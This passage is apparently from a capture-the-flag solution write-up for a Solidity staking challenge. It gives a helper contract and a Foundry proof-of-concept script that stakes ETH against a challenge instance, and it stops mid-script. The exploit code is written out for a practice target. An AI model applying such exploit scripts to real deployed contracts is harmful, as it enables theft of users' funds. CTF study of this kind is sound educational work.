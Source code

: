 ## Solution

Let's implement the complete solution. Here is a simple contract that will stake some ETH in the `Stake` contract. The goal is to simulate a user, so we can fulfill all the requirements.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IStake {
    function StakeETH() external payable;
}

contract BecauseWhyNot {
    IStake private immutable stake;

    constructor(address _stakeContract) payable {
        stake = IStake(_stakeContract);
    }

    function becauseWhyNot() external payable {
        // Become a staker with 0.001 ETH + 2 wei (1 will be left behind)
        stake.StakeETH{value: msg.value}();
    }
}
```

Next, let's write a deployment script that will handle all the transactions in one go for us:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script, console2} from "forge-std/Script.sol";
import {BecauseWhyNot} from "../src/31_Stake.sol";

interface IStake {
    function totalStaked() external view returns (uint256);
    function WETH() external view returns (address);
    function StakeETH() external payable;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
}

interface IWETH {
    function approve(address spender, uint256 amount) external returns (bool);
}

contract PoC is Script {
    // Replace with your Stake instance
    IStake private immutable stake =
        IStake(0xaF162C29cf1791410b601D4CB73292c78C42320D);
    IWETH private immutable weth = IWETH(stake.WETH());
    uint256 amount = 0.001 ether + 1 wei;

    function run() external {
        uint256 deployer = vm.envUint("PRIVATE_KEY");
        vm.startBroadcast(deployer);

        // 1. Deploy the BecauseWhyNot contract and stake some ETH
        BecauseWhyNot becauseWhyNot = new BecauseWhyNot(address(stake));
        becauseWhyNot.becauseWhyNot{value: amount + 1 wei}();

        // 2. Become a staker
        stake.StakeETH{value: amount}();
```